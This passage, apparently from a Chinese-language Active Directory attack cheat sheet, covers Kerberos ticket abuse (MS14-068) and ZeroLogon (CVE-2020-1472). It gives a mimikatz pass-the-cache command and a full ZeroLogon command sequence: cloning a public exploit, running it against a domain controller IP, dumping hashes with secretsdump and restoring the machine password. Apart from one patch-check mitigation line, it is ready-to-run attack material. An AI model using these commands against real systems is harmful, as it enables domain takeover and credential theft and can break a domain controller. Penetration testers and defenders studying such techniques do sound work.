 ```powershell
  [+] 从msfdc01.metasploitable.local接收TGS-REP... 完成！
  [+] 解析来自msfdc01.metasploitable.local的TGS-REP... 完成！
  [+] 创建ccache文件'TGT_user01@metasploitable.local.ccache'... 完成！
```

然后使用`mimikatz`加载票据。

```powershell
mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
```

#### 缓解措施

* 确保DCPromo过程包括在运行DCPromo之前检查KB3011780安装的补丁QA步骤。执行此检查的快速简便方法是使用PowerShell：get-hotfix 3011780

### ZeroLogon

> CVE-2020-1472

Secura的白皮书：https://www.secura.com/pathtoimg.php?id=2055

白皮书中的利用步骤

1. 伪造客户端凭据
2. 禁用签名和密封
3. 伪造调用
4. 将计算机的AD密码更改为空
5. 从密码更改到域管理员
6. :warning: 以正确的方式重置计算机的AD密码以避免任何服务拒绝

* `cve-2020-1472-exploit.py` - 来自[dirkjanm](https://github.com/dirkjanm)的Python脚本

  ```powershell
  # 检查（https://github.com/SecuraBV/CVE-2020-1472）
  proxychains python3 zerologon_tester.py DC01 172.16.1.5
  
  $ git clone https://github.com/dirkjanm/CVE-2020-1472.git
  
  # 激活虚拟环境以安装impacket
  $ python3 -m venv venv
  $ source venv/bin/activate
  $ pip3 install .
  
  # 利用CVE（https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py）
  proxychains python3 cve-2020-1472-exploit.py DC01 172.16.1.5
  
  # 查找DC的旧NT哈希
  proxychains secretsdump.py -history -just-dc-user 'DC01$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'CORP/DC01$@DC01.CORP.LOCAL'
  
  # 从secretsdump恢复密码
  # secretsdump将在最新版本上自动转储纯文本机器密码（十六进制编码）
  # 当转储本地注册表机密时
  python restorepassword.py CORP/DC01@DC01.CORP.LOCAL -target-ip 172.16.1.5 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3
  deactivate
  ```

